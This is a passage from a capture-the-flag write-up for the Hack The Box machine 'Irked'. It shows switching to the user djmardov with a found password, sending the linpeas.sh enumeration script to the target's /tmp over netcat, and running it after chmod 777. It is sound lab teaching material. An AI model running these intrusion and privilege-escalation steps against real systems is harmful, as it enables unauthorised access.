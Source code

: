 Okay, this looks like a user password. Let's go try to switch user (su) from ircd to djmardov.  

![PrivEsc djmardov](/assets/images/HTB/irked/djmardov.png)  

### Post-Exploit Enumeration  

I am now going to transfer linpeas.sh over to the irked box, /tmp folder with netcat.  

```bash
djmardov@irked:/tmp$ nc -l -p 8899 > linpeas.sh

┌──(kali㉿kali)-[~]
└─$ nc -w 3 10.10.10.117 8899 < linpeas.sh
```  

Now I can change the privileges on it and run it on the host machine.  

```bash 
$ chmod 777 linpeas.sh
$ ./linpeas.sh
```  

